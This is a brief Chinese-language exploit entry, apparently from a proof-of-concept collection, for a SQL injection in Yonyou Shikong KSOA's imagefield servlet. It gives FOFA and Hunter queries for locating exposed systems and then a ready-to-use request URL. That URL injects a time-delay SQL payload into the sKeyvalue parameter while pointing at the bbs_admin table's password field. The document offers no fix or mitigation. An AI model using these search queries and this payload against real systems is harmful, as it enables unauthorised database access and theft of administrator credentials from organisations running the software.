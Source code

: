 # 用友时空KSOA imagefield SQL注入

## 网络测绘

fofa: app="用友-时空KSOA"

hunter: app.name="用友时空 KSOA"

## POC / EXP

```
/servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1%27;WAITFOR%20DELAY%20%270:0:10%27--
```